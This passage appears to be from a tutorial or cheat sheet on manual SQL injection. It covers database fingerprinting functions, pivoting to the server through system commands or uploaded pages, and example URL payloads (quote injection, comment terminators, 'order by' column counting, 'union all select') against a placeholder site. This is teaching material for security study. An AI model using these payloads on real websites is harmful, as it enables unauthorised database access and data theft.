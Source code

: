 ## 13. Attempt to determine database computer name, IP address, username, version, etc.

```SQL
MySQL Functions:
VERSION() - MySQL server version
USER() - Database user issuing query
DATABASE() - Database on server against which query is running
```

## 14. Attempt to pivot to database server level. This will largely depend on either being able to execute system commands via the database server or upload files to the file system. Uploading files would allow web application pages to be uploaded which can contain system calls.

---

## Practical Steps for Manual SQLi

### Testing to get a database Error

```sql
> http://blabla.com?id=1\
> http://blabla.com?id=1'
```

### Sql comment to correct the error

```sql
# + is the encode of space
> http://blabla.com?id=1\--+
> http://blabla.com?id=1'#
```

## join queries

### To see how many columns used in this query

```sql
# 3 is our guess for used columns
> http://blabla.com?id=1' order by 3 --+
```

### Reading data from database

```sql
# We usually get the output for one query only,
# So we should get rid of the first query by searching for
# a non exist value like -1
> http://blabla.com?id=-1' union all select 1,2,3 --+
```
